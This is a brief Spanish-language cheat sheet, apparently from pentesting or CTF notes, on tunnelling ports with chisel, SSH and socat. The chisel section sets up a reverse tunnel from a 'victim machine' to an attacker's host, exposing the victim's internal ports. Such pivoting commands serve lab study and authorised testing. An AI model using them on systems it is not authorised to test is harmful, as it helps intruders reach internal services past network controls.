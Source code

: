 
# Remote port forwarding con chisel
Para ver un puerto interno de la máquina en nuestro host con chisel.

```
# Nuestra máquina
./chisel server --reverse -p 1234
---
# Máquina víctima
./chisel client 10.10.10.10:1234 R:<puerto atacante>:127.0.0.1:<puerto víctima>
```

# Local port forwarding con SSH

```
ssh jedah@10.10.10.10 -L 9999:127.0.0.1:9999
```

# Socat

```
socat tcp-listen:5000,fork tcp:127.0.0.01:7890
```

Forward puerto 1336 de la máquina a 1337 para todos
```
./socat tcp-listen:1337,reuseaddr,fork tcp:localhost:1336 &
```